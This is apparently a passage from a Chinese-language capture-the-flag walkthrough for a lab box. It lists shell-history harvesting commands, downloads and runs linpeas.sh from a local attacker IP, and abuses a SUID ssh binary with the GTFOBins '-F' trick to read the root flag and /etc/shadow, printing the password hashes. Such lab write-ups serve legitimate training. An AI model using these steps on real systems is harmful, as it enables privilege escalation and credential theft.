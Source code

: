 ```shell
cat ~/.bash_history                             # 当前用户命令历史 
find /home -name ".*_history" 2>/dev/null       # 所有用户的Shell历史文件

```

省事也可以上`linpeas.sh`脚本一把嗦

```shell
welcome@pdf:~$ busybox wget 192.168.43.148/CTF/linpeas.sh
Connecting to 192.168.43.148 (192.168.43.148:80)
linpeas.sh           100% |****************************************************************************|  808k  0:00:00 ETA
welcome@pdf:~$ ls
linpeas.sh  user.txt
welcome@pdf:~$ chmod +x linpeas.sh 
welcome@pdf:~$ ./linpeas.sh 

```

![image-20250625234548844](https://gitee.com/shui666/images/raw/master/images/image-20250625234548844.png)

重点关注`标红`的内容，容易发现 `/usr/bin/ssh`的`SGID`异常

```shell
welcome@pdf:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/ssh
welcome@pdf:~$ ls -l /usr/bin/ssh
-rwsr-sr-x 1 root root 797480 Dec 21  2023 /usr/bin/ssh
```

##### `ssh`提权

`gtfobins`查表，有现成的读文件方案

```bash
#https://gtfobins.github.io/gtfobins/ssh/#shell
##File read
LFILE=file_to_read
ssh -F $LFILE localhost
```

先读取`/root/root.txt`

```shell
welcome@pdf:~$ ssh -F /root/root.txt localhost
/root/root.txt: line 1: Bad configuration option: flag{root-21d72a06840925613b0ea50e84587620}
/root/root.txt: terminating, 1 bad configuration options
```

再读取`/etc/shadow`

```shell
welcome@pdf:~$ ssh -F /etc/shadow localhost
/etc/shadow: line 1: Bad configuration option: root:$6$qgppm7vz3uxoh2kt$vkj8.on1has6b9.tm8ms5fwhmvmxrvz29bcznqmjfqojkphvaznoozhyt0.o2x3s3nbqrswpci.lhvk94armu.:20263:0:99999:7:::
....
welcome:$6$dhmqudmnaomw.das$o1bwxwdtmdf8n6xa5yupvk65ylc9jmuimtglu2lbsskmpah.lvot41/xsb.kxp1feszjevu8lpoylsvcdm2va.:20263:0:99999:7:::
/etc/shadow: terminating, 26 bad configuration options
```
